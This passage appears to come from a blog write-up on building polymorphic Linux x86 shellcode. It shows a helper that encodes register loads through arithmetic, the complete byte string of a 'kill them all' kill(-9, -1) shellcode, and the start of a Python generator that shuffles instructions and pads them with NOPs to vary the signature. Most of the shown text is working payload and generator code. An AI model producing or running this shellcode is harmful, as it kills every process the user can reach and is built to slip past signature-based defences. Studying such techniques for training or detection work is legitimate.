     ax_value = n * dl_value;

    val = socket.htons(ax_value);   # now the value is in network byte order
                                    # like the way it would be stored into
                                    # the stack

    hex_val = format(val, 'x');
    mov_ax = "\\x66\\xb8\\x"+hex_val[0:2]+"\\x"+hex_val[2:4];
    mov_dl = "\\xb2\\x"+format(dl_value, 'x');
    div_dl = "\\xf6\\xf2";

    code = mov_ax+mov_dl+div_dl;

    if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;

{%endhighlight%}

![Kill with math]({{site.url}}/assets/images/kill_math.png)

This line will create the _kill them all_ shellcode with the div strategy.
Please note that we first invoke the CL set and then AL value.

{%highlight python%}
shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";
{%endhighlight%}

{%asciicast 198421 %}

### The polymorphic generator for kill(-9, -1)

Here it is the python script using the described strategies to create a
polymorphic version of kill -9, -1 shellcode.

{%highlight python%}
#!/usr/bin/env python

from random import randint, shuffle;
import sys, getopt;
import socket;

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-s, --shuffle: use SHUFFLE strategy on operands"
    print "\t-n, --nop: add a random number of NOPs to the shellcode"
    print "\t-N, --nop-equivalent: add some NOP equivalent instruction to the code"
    print "\t-m, --math: use math strategy for MOV"
    return 0

def kill_shuffle():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop_blk = ["\\x90"]*n